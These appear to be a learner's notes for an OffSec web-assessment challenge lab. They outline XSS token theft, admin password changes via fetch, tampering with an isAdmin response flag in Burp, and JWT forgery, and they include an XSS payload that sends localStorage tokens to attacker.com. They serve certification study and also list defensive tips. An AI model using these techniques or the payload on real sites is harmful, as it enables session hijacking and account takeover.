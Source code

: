 ### initial web page
![[Pasted image 20250106100350.png]]
### things to try
- need to find a way of creating a user identifying what the user can do with `XSS` vulnerability,  potentially very similar to the  [[00- Learning & Research/01- Certifications/03- Offensive Security Web Assessor (OSWA)/17. Challenge Labs/12. Construction - Post OffSec Meeting/Post Enum|Post Enum]] `offsec` walkthrough machine
- find `app.js` to change `admin` password with `fetch` 
![[Pasted image 20250106112103.png]]
- very similar to `construction` machine with `fetch`, look for `change password` function found in 
- able to get token with `xss` vulnerability  but have to be quick because it resets
- make sure to look at all the `.js` files

#### Tips
```bash
#  Bypassing or Testing Admin Access in JS-Based Login Flow

## 1. Modify isAdmin in API Response (Client-Side Trust Abuse)

# Steps:
- Intercept POST https://<domain>:8443/api/login in Burp.
- Right-click → "Do Interception → Response to this request".
- When response appears, change:
  {
    "status": "ok",
    "token": "abc123",
    "isAdmin": "false"
  }
  → to:
  {
    "status": "ok",
    "token": "abc123",
    "isAdmin": "true"
  }
- Forward the response.
- If redirected to /admin.php → vulnerable to client-side trust.

## 2. Token Reuse / Bruteforce (Token Auth Weakness)

# Steps:
- Capture login response → extract token:
  { "token": "eyJhbGciOi..." }

# If JWT:
- Decode at jwt.io
- Modify payload: { "isAdmin": true }
- If alg: none or weak secret, re-sign or exploit

# If custom token:
- Try guessing, fuzzing, or replaying tokens using Burp Intruder

## 3. Token Theft (XSS or MITM)

# XSS Payload:
<script>
fetch('http://attacker.com/steal?token=' + localStorage.getItem('token'));
</script>

# MITM:
- Look for unencrypted traffic or login over HTTP
- Capture token in transit

## 💡 Defense Tips (For Notes)
- Never trust isAdmin from client.
- Validate token + role on server.
- Store token in HTTP-only cookies, not localStorage.
```

